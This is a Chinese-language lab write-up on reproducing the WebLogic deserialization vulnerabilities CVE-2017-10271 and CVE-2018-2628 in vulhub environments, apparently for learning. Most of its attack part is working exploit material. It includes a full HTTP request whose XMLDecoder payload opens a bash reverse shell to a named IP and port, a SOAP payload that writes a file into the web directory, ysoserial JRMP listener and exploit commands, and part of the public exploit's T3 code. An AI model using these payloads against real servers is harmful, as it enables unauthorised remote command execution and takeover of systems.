





## CVE-2017-10271 Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞

### 漏洞简介

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。攻击者发送精心构造的xml数据甚至能通过反弹shell拿到权限。

OracleWebLogic Server10.3.6.0.0
OracleWebLogic Server12.1.3.0.0
OracleWebLogic Server12.2.1.1.0
OracleWebLogic Server12.2.1.2.0

### 漏洞原理

CVE-2017-10271漏洞主要是由WebLogic Server WLS组件远程命令执行漏洞，主要由wls-wsat.war触发该漏洞，触发漏洞url如下： [http://101.32.30.69:7001/wls-wsat/CoordinatorPortType](https://links.jianshu.com/go?to=http%3A%2F%2F192.168.xx.xx%3A7001%2Fwls-wsat%2FCoordinatorPortType) post数据包，通过构造构造SOAP（XML）格式的请求，在解析的过程中导致XMLDecoder反序列化漏洞。

### 漏洞复现

使用 /vulhub/weblogic/CVE-2017-10271 环境

访问http://101.43.138.109:8080/wls-wsat/CoordinatorPortType，存在以下页面能存在漏洞

poc如下，反弹shell

~~~
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 101.43.138.109:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 643

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/101.43.138.109/1770 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
~~~

写入webshell，需要构造路径，上传的文件在http://101.43.138.109:8080/wls-wsat/ 路径下

~~~
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
         <java version="1.6.0" class="java.beans.XMLDecoder">
                    <object class="java.io.PrintWriter"> 
                        <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string><void method="println">
                        <string>xmldecoder_vul_test</string></void><void method="close"/>
                    </object>
            </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
</soapenv:Envelope>
~~~

## CVE-2018-2628 Weblogic WLS Core Components 反序列化命令执行漏洞

### 漏洞原理

远程攻击者可利用该漏洞在未授权的情况下发送攻击数据，通过T3协议（EJB支持远程访问，且支持多种协议。这是Web Container和EJB Container的主要区别）在Weblogic Server中执行反序列化操作，利用RMI（远程方法调用） 机制的缺陷，通过 JRMP 协议（Java Remote Messaging Protocol：java远程消息交换协议）达到执行任意反序列化 payload 的目的。 

### 漏洞复现

使用/vulhub/weblogic/CVE-2018-2628 环境

地址 http://101.43.138.109:8080/

在本地启动一个JRMP server

~~~
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 2333 CommonsCollections1 'touch /tmp/evil'
~~~

exp地址 https://www.exploit-db.com/exploits/44553

~~~
python exp.py 101.43.138.109 7001 ysoserial-master-SNAPSHOT.jar 101.43.138.109 2333 JRMPClient
~~~

使用此exp进行攻击时遇到一个问题，第一次我将docker的7001端口映射到8080上，exp运行卡在了build_t3_request_object函数，使用https://github.com/rabbitmask/WeblogicScan工具进行扫描，竟然没有扫描出CVE-2018-2628

后来把docker的7001端口映射到7001端口，WeblogicScan扫描出了漏洞，exp利用也成功了，后续分析发现WeblogicScan用的[poc](https://github.com/rabbitmask/WeblogicScan/blob/05cee3a69cf403e4db5f057c569a923c107cb97b/poc/CVE_2018_2628.py#L1)同样是https://www.exploit-db.com/exploits/44553的代码，所以问题的根源就在exp的代码里面。

~~~python
def build_t3_request_object(sock, port):
    data1 = '000005c7765626c6f6769632e726a766d2e436c371'
    data2 = '00087077200114dc42bd07'.format('{:04x}'.format(dport))
    data3 = '1a7727000d3234322e323134'
    data4 = '2e312e32353461863d1d0000000078'
    for d in [data1,data2,data3,data4]:
        sock.send(d.decode('hex'))
    time.sleep(2)
    print('send request payload successful,recv length:%d'%(len(sock.recv(2048))))
~~~

感谢实验室大佬的解答，让我找到了出现这个问题的原因。“当负载均衡或代理端口与后端weblogic监听端口不一致时后端的weblogic就会拒绝t3协议的连接并抛出端口不一致错误。”docker的端口映射就好比一个反向代理，把内部7001端口的流量转发到外部8080端口。详细信息：https://www.secpulse.com/archives/163761.html

然而文中的解决方式是用java重写一个JVMID完成地址转换，也没有给出完整代码，对于我这个java小白来说根本不知道如何操作。这个问题暂时搁置。

